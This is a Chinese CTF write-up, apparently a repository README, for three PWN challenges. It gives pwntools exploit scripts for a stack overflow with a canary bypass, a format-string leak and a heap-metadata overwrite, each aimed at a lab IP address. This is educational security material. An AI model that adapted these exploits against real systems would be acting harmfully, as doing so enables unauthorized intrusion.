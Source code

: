 # PWN Writeups

PWN 题目及 Docker 在本仓库 `/docker/pwn` 目录下。

## easy_stack

[栈溢出][https://ctf-wiki.org/pwn/linux/stackoverflow/stackoverflow-basic/]

```python
from pwn import *

context.log_level = 'debug'

a = remote('10.10.175.98', 30000)
recv = a.recvuntil('please')
canary = u64(recv[0x108:0x110])
a.sendlineafter('voice', '-1')
a.sendlineafter('out', 0x108 * b'A' + p64(canary) + b'A' * 8 + p64(0x401256))
a.interactive()
```

![](imgs/stack.png)

## ez_printf

[字符串格式化漏洞][https://ctf-wiki.org/pwn/linux/fmtstr/fmtstr_intro/]

```python
from pwn import *
import ctypes

context.log_level = 'debug'

a = remote('10.10.175.98', 30002)
a.sendlineafter('address:\n', b'%9$sAAAA' + p64(0x4040B0))
secret = ctypes.c_int64(u64(a.recv(8))).value
a.sendlineafter('secret', str(secret))
a.interactive()
```

![](imgs/printf.png)

## ez_heap

[堆溢出][https://ctf-wiki.org/pwn/linux/glibc-heap/fastbin_attack/]

```python
from pwn import *

context.log_level = 'debug'

a = remote('10.10.175.98', 30001)
a.sendline(b'a' * 0x10 + p64(0) + p64(0x21) + p64(0x2160))
a.interactive()
```

![](imgs/heap.png)

（注：由于不知道堆的地址，因此需要多次尝试）
